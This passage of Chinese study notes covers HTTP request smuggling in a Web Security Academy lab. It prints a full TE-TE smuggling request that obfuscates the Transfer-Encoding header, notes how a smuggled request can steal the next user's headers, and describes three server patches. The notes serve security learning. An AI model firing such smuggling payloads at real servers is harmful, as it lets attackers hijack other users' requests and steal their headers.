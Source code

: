 ### 实验5：TE-TE

前后端都处理TE请求头，此时，可以对请求包中的TE做混淆

```
POST / HTTP/1.1rn
Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.netrn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0rn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8rn
Accept-Language: en-US,en;q=0.5rn
Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8rn
Content-length: 4rn
Transfer-Encoding: chunkedrn
Transfer-encoding: cowrn
rn
5crn
GPOST / HTTP/1.1rn
Content-Type: application/x-www-form-urlencodedrn
Content-Length: 15rn
rn
x=1rn
0rn
rn
```



## 参考链接知识点

1. 二进制安全：针对函数处理字符串的说法，对字符串中的字符都平等读取，不做特殊意义处理（例如不对'\0'、转义字符做处理，直接读取原始数据）

> 参考连接：https://blog.csdn.net/luoyanjiewade/article/details/88229820

2. 通过拼接下一个http请求盗取下个请求的所有请求头

#### 第一个补丁

```
对 空格: 有限制，但是没有对应处理。
```

#### 第二个补丁

```
返回400错误时，关闭tcp连接。
```

对 null：ATS会截断返回400

由于打补丁前tcp没有关闭连接，导致http pipeline的返回顺序被破坏，其他用户可能收到远程响应

#### 第三个补丁

```
当Content-Length请求头不匹配时，响应400，删除具有相同Content-Length请求头的重复副本，如果存在Transfer-Encoding请求头，则删除Content-Length请求头。
```

